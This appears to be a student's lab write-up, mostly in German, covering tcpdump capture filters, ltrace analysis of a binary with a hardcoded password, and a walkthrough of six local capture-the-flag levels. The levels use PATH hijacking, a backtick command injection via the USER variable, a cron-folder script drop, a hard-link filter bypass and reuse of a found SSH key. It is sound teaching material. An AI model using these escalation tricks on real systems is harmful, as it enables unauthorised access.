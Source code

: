 #Übung 5  David Binder  S1510237001
###1.1 Capture all packets at a network interface, which use the UDP protocol and any destination port from 1 to 1024.

sudo tcpdump -n udp dst portrange 1-1024

###1.2 Capture all broadcast and multicast packets.

sudo tcpdump -n "broadcast or multicast"

###1.3 Capture all packets, whose destination is host 192.168.1.1, except for packets to port 80 (http) or port 23 (telnet).

sudo tcpdump -n "dst host 192.168.1.1 and not(dst port 80 or dst port 23)"


###1.4 Find a way to capture all TCP packets, where the RST flag is set (abnormal connection closure).

sudo tcpdump 'tcp[13]&4!=0'


###1.5 Set up tcpdump to capture HTTP packets only, and save the captured packets to a file. Browse the web for a few minutes and stop capturing. Then use the tshark utility to open and print the captured packets, and use common shell utilities to extract a list of all distinct destination hosts/IPs.

tshark -r capture.cap | sed -e 's/^[[:space:]]*//' -e 's/ */ /g' | cut -d ' ' -f 5 | sort -n | uniq

##2.
- File ausführbar machen:  'chmod 755 mystery64'
- File ausführen ./mystery64
![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Aufgabe 2\mystery_output.png?raw=true)

- ltrace auf die file ausführen

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Aufgabe 2\ltrace_output.png?raw=true)
- "MC14rocks verdächtig", dieses als Passwort probiert -> hat funktioniert!

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Aufgabe 2\mystery_executed.png?raw=true)

- Mit ltrace lässt sich herausfinden, dass das Programm listened.
- Als nächstes wird Text ausgegeben ("Hello World! ...").
- Danach wird die /etc/passwd file geöffnet und mit malloc(20) speicher allokiert.
- der String "MC14" wird an die Stelle 0x11fd8a0 im Speicher kopiert.
- Als nächstes wird der string "rocks" and den string "MC14" angefügt.
- Der input wird gelesen und mit per strncmp mit "MC14rock" verglichen.

#Übung 5 CTF
## Login with SSH
ssh -p 2200 level00@127.0.0.1
password: level00

## Level 00
Nach Ausführbaren Datei des Users flag00 gesucht und den output in eine Textdatei gepiped, welches die ganzen "Permission denied" nicht mitschreibt.

```
find /. -type f -executable -user flag00 >> output.txt
```

Danach die File aufgemacht, welches nur zwei Einträge hat.

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level00\level00_1.PNG?raw=true)
File ausgeführt:

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level00\level00_finish.PNG?raw=true)

##Level 01
Idee:
getflag über echo aufrufen. Dazu nicht /bin/echo Befehl verwenden (weil man dafür keine Befugnis hat), sondern eigenes echo, welches im root Verzeichnis erstellt wurde und
```
/bin/getflag
```
ausführt.

Dazu wird für den auszuführenden Befehl der PATH auf unser Verzeichnis gesetzt, indem sich das neue echo befindet und anschließend das flag01 file, welches die Flagge captured ->
```
PATH=/home/level01 /home/flag01/flag01
```

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level01\level01_capture.PNG?raw=true)

##Level 02
Der
```
asprintf(&buffer, "/bin/echo %s is a nice MC student", getenv("USER"));
```
Befehl setzt an Stelle des **%s**, welches als Platzhalter dient, die Environment Variable **USER** ein.
Vorher stand **USER=level02**. Man kann nun an dieser stelle den getflag Befehl ausführen, indem man einen Shell escape macht.
Dieser sieht folgendermaßen aus:
```
export USER=\`/bin/getflag\`
```
Durch die **\`** wird der Inhalt Shell escaped, und führt somit /bin/getflag aus. Die **\\** sind wiederum zum escapen der **\`** verwendet.

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level02\level02_capture.PNG?raw=true)


##Level 03
Crontab wird alle 20 Sekunden ausgeführt.
Im writeable.sh skript gibt es eine Schleife, welche alle scripts, die sich im writeable.d Ordner befinden ausführt, und danach löscht.
-> Skript im writeable.d Ordner erstellt und dessen execute Berechtigung gegeben.
```
touch executeGetFlag.sh
```
In dieser File wird getflag ausgeführt und das Ergebnis in eine output.txt gepiped.
```
/bin/getflag >> output.txt
```
Berechtigung gegeben:
```
chmod 755 executeGetFlag.sh
```
Danach wurde das Skript automatisch nach 20 Sekunden ausgeführt und eine output.txt mit dem Ausgabetext, dass die Flagge gecaputed wurde, erstellt.

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level03\output.PNG?raw=true)

**output.txt Inhalt:**
![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level03\capture.PNG?raw=true)

##Level 04
```
if(strstr(argv[1], "token") != NULL) {
```
Diese Zeile fragt nach dem Token File Namen. Da wir nicht "token" übergeben dürfen, erstellen wir einen link mit
```
ln token /home/level04/newlink
```
Somit haben wir einen Link von der File auf das Homeverzeichnis erstellt.
Als nächstes wird der Link als übergabe Parameter übergeben.
```
level04@smsctf:/home/flag04$ ./flag04 /home/level04/newlink
```
Somit wird die if Anfrage umgangen und die File ausgelesen.
Folgender String war die Ausgabe:
```
06508b5e-8909-4f38-b630-fdb148a848a2
```
Erster Gedanke war gleich, dies muss ein Passwort sein. Um getflag ausführen zu können braucht man eine Berechtigung, welche nur der flag04 User hat. Somit wurde das einloggen in das User Profil von flag04 mit dem oben erhaltenen String als Passworteingabe probiert.
```
level04@smsctf:/home/flag04$ su flag04
```
Dies war erfolgreich. Danach einfach getflag und die Flagge wurde gecaptured!

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level04\capture.PNG?raw=true)

##Level 05
Zuerst wurden keine Ordner, Files etc. angezeigt, weil diese versteckt waren.
Aufgefallen ist der .backup Ordner, welcher eine .tar File in sich hatte.
Diese konnte man wegen Berechtigungsgründung nicht entpacken, somit habe ich eine Kopie im /home/level05 Verzeichnis erstellt.
Das .tar Verzeichnis enthielt folgende Dateien:
![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level05\tar_file.PNG?raw=true)

Als nächstes habe ich in den .ssh Ordner gewechselt und dort eine ssh Verbindung mit folgendem Befehl aufgebaut:
```
ssh -2 -v flag05@127.0.0.1
```
- -2 steht für Protokoll Typ 2, welches zum File identifizieren benötigt wird (für  ~/.ssh/id_rsa z.B)
- -v für mehr Textausgabe, was passiert.

![Alt text](A:\FH\WS17\SMS\Übung\Übung 5\Level05\capture.PNG?raw=true)

Somit habe ich mich zum Host verbunden und dort **getflag** ausgeführt!


